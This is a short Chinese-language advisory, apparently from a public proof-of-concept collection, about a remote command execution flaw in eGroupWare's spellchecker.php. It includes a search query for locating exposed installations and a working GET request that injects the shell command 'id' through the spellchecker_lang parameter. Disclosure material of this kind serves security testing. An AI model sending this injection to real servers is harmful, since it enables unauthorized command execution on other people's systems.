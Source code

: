 # 

# eGroupWare spellchecker.php 远程命令执行漏洞

## 漏洞描述

*eGroupWare*是一个多用户，在以PHP为基础的API上的定制集为基础开发的，以WEB为基础的工作件套装，其中 spellchecker.php 文件中存在命令执行漏洞

## 漏洞影响

```
eGroupWare
```

## 网络测绘

```
app="EGROUPWARE-产品"
```

## 漏洞复现

登录页面

![image-20220524171233435](./images/202205241712519.png)

验证POC

```
/egroupware/phpgwapi/js/fckeditor/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php?spellchecker_lang=egroupware_spellchecker_cmd_exec.nasl%7C%7Cid%7C%7C
```

![image-20220524171251702](./images/202205241712784.png)
